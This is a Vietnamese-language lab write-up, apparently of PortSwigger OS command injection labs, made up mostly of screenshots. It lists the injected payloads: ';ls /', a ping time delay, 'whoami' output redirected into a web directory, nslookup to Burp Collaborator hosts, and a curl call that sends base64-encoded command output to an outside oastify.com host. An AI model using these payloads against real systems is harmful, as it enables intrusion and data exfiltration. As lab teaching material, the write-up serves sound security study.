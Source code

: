 ![image](https://github.com/user-attachments/assets/f3647a6b-4470-4361-8381-669b901462cd)

![image](https://github.com/user-attachments/assets/fe2f550d-63a6-4d65-b41c-1015e258a6cd)

![image](https://github.com/user-attachments/assets/9e2e788e-874d-417d-abdb-4bb60ea97e53)

Chú ý cái storeId là cái giá trị để check, theo phán đoán thì đấy là 1 cái command và tôi dí thêm `;ls /` để thử, nó chạy được:

![image](https://github.com/user-attachments/assets/48e3f930-7f21-45ce-9dba-2a8ae7846d43)

![image](https://github.com/user-attachments/assets/12a2f0d6-01cb-4278-ab88-a2720ddf842c)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/7bc332e2-8594-4107-b02d-b0e055e63748)

![image](https://github.com/user-attachments/assets/84fda74f-0437-4468-b310-48b5738a1cf0)

![image](https://github.com/user-attachments/assets/dfce798b-ff57-4a1d-9747-625e37a6136d)

Dùng cái `||ping+-c+10+127.0.0.1||` là vì nó sẽ gửi 10 gói tin đến localhost, giả sử 1 cái mấy 1 giây thì 10 cái là 10 giây

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/e62149d0-1863-4f51-a44e-8e3f13094a6f)

![image](https://github.com/user-attachments/assets/573f4c67-e465-4ad0-9733-80868158be3f)

![image](https://github.com/user-attachments/assets/ed899058-6149-464d-94c1-332b6896dec6)

`email=abcd%40gmail.com||whoami>/var/www/images/output.txt||` thì như câu trước, nhưng lần này tôi gửi kết quả đến output.txt nằm ở /var/www/images/ vì đề bảo vứt vào đó, giờ tìm cách chui vào trong đó để xem output

![image](https://github.com/user-attachments/assets/ee3adf58-b39d-4bee-a80d-f39f08358c70)

Mở tạm 1 cái ảnh ra, đổi tên filename thành output.txt

![image](https://github.com/user-attachments/assets/a8880aaa-f3ef-44d9-a164-5ecce2762b9f)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/627e520a-ab48-4710-aee0-6defbf4e4ace)

Tôi bật cái Burp Collaborator lên

![image](https://github.com/user-attachments/assets/98c727b7-7c2a-43a6-aed4-b4939f213846)

Dùng payload `email=abcd%40gmail.com||nslookup+gg0m9t5iybjypbomtujqv7fdw42vqlea.oastify.com||` 

![image](https://github.com/user-attachments/assets/0dfdcf4e-3aec-491a-a845-81138d82aba8)

Xong

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/29d22f61-6b6a-4d97-9474-4d8e0aa5ba68)

Tôi dùng `email=abcd%40gmail.com||nslookup+qoiwh3ds6lr8xlww14r03hnn4ea5ywml.oastify.com||` để chắc chắn rằng ở đó command injection

![image](https://github.com/user-attachments/assets/d67549d4-2745-46ec-b2ec-8595eb66526f)

![image](https://github.com/user-attachments/assets/6f991a7c-0fb9-438a-ae65-d49567192099)

Giờ thì chạy whoami, tôi dùng payload `email=abcd%40gmail.com||curl+https://qoiwh3ds6lr8xlww14r03hnn4ea5ywml.oastify.com/?$(whoami+|+base64)||` 

![image](https://github.com/user-attachments/assets/891931d6-160e-42b0-a270-e107686e56e0)

Giải thích kĩ hơn về payload thì tôi dùng curl gửi tạm 1 request tới trong đó có chứa câu lệnh `whoami | base64`, cái `$()` là để cho lệnh thực thi khi và trả lại kết quả khi đang ở trong url, kết quả trả về sẽ được encode sang base64, encode base64 là vì để nhìn url thuận mắt hơn và ngắn gọn, ví dụ nếu dùng ls thì nó có cả dấu cách hoặc xuống dòng trong đấy nữa, tóm lại là nên encode sang base64

![image](https://github.com/user-attachments/assets/b86eea1e-09ae-4b6f-8223-fdc488a038ec)









